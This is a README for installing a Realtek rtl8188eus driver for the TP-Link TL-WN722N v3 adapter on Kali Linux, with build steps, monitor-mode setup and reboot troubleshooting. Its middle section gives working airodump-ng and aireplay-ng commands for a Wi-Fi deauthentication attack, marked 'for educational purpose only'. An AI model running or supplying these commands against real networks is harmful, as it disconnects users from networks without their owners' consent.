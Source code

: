 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux

## copy  and past the below commands

sudo  apt update

sudo apt dist-upgrade

reboot

sudo apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

sudo git clone https://github.com/keralahacker/tp-link-v3-usb

cd tp-link-v3-usb

sudo unzip realtek-rtl8188eus-keralahacker.zip

cd realtek-rtl8188eus-dkms-kali-master 

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu


----------------------------------------------------------------------------------
#### if you face any issues ===> 
https://github.com/keralahacker/tp-link-v3-usb/issues/new 
#### submit with screenshot
----------------------------------------------------------------------------------

## To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



### Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


## Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
